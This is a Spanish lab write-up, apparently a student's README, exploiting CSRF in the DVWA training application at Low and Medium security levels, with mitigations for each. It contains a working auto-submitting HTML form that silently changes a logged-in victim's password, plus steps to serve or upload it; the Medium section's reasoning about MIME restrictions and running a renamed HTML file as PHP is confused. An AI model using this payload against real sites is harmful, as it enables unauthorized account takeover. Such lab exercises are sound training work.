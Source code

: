# 🛡️ Práctica: Cross-Site Request Forgery (CSRF) en DVWA

---

# 📖 Introducción

**Cross-Site Request Forgery (CSRF)** es una vulnerabilidad que permite a un atacante realizar acciones no autorizadas en nombre de un usuario autenticado.  
Esto se logra haciendo que el navegador de la víctima envíe solicitudes maliciosas sin su consentimiento, aprovechando que ya está autenticada en la aplicación web objetivo.

Durante esta práctica, se analiza cómo explotar esta vulnerabilidad en DVWA en los niveles de seguridad **Low** y **Medium**.

---

# 🔷 Nivel de Seguridad: Low

## 📌 Descripción

En este nivel, DVWA no implementa ningún tipo de protección CSRF.  
La aplicación acepta cualquier solicitud POST válida, incluso si proviene de otro dominio o archivo local.

---

## 🛠️ Procedimiento

### 1. Creación del archivo malicioso

Se crea un archivo `csrf.html` con el siguiente contenido:

```html
<form action="http://127.0.0.1/DVWA/vulnerabilities/csrf/" method="POST">
  <input type="hidden" name="password_new" value="pass" />
  <input type="hidden" name="password_conf" value="pass" />
  <input type="hidden" name="change" value="change" />
  <input type="submit" value="Submit request" />
</form>
<script>
  document.forms[0].submit();
</script>
```

Este archivo realiza un cambio de contraseña de forma automática cuando la víctima lo visita.


### 2. Servir el archivo con un servidor HTTP

```bash
python3 -m http.server 8080
```

El atacante puede enviar este enlace a la víctima. Si la víctima está autenticada, su contraseña será cambiada sin su conocimiento.


📸 **Captura de la ejecución de `csrf.html` y envío automático del formulario:**


![CSRF_low](https://github.com/XaviGimReu/PPS-10836126/blob/main/template-main/RA3/RA3_2/assets/Cross_Site_Request_Forgery(CSRF)%20-%20low_1.png)

✅ Esto demuestra que no existe ninguna validación de origen o token para prevenir el ataque CSRF.


## 📋 Resumen

- El ataque CSRF es exitoso debido a la falta total de protección.

- El servidor acepta cualquier solicitud POST con los campos correctos.


## 🛡️ Medidas de Mitigación

- Incluir un **token CSRF único** y **aleatorio** en todos los formularios sensibles.

- Validar el **referer/origin** de las solicitudes entrantes.

- Utilizar cabeceras específicas (como `SameSite`) para cookies.

---

# 🔶 Nivel de Seguridad: Medium

## 📌 Descripción

En este nivel, DVWA introduce una medida adicional de seguridad: **restricción de tipo MIME** en las cargas, que en este caso fue usada para simular el ataque.

El atacante intenta subir un archivo `.php` con contenido malicioso que ejecuta la misma acción de cambio de contraseña.


## 🛠️ Procedimiento

### 1. Renombrar el archivo malicioso

Se renombra `csrf.html` como `csrf.php` para que pueda ser ejecutado desde el servidor al cargarlo:

```bash
mv csrf.html csrf.php
```

### 2. Servir el archivo con un servidor HTTP

Se accede al apartado de **File Upload** y se sube `csrf.php`.

DVWA en nivel Medium **permite la carga del archivo PHP**, ejecutándolo al acceder a la URL generada.



📸 **Captura tras la carga del archivo PHP malicioso:**


![CSRF_med](https://github.com/XaviGimReu/PPS-10836126/blob/main/template-main/RA3/RA3_2/assets/Cross_Site_Request_Forgery(CSRF)%20-%20med_1.png)

✅ Esto demuestra que, aunque la protección directa contra CSRF podría haber mejorado, **la ejecución del script desde un archivo externo sigue siendo posible** al combinarlo con vulnerabilidades como File Upload.


## 📋 Resumen

- El sistema sigue siendo vulnerable mediante la combinación de CSRF y File Upload.

- La ejecución del archivo malicioso desde el servidor causa el cambio de contraseña automáticamente.


## 🛡️ Medidas de Mitigación (recomendadas adicionales)

- Restringir la carga de archivos únicamente a tipos MIME seguros (por ejemplo, imágenes).

- Evitar que se ejecuten archivos subidos desde rutas públicas.

- Aplicar validaciones de tokens CSRF y cookies con política `SameSite=strict`.


---

## 📬 Referencias

**[Brute Force](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Brute%20Force)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Command Injection](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Command%20Injection)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Content Secutiry Policy (CSP) Bypass](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Content%20Security%20Policy%20(CSP)%20Bypass)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Cross-Site Scripting (XSS)](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Cross-Site%20Scripting%20(XSS))**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[SQL Injection](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/SQL%20Injection)**&nbsp;&nbsp;&nbsp; | &nbsp;&nbsp;&nbsp;
**[Weak Session IDs](https://github.com/XaviGimReu/PPS-10836126/tree/main/template-main/RA3/RA3_2/Weak%20Session%20IDs)**

---
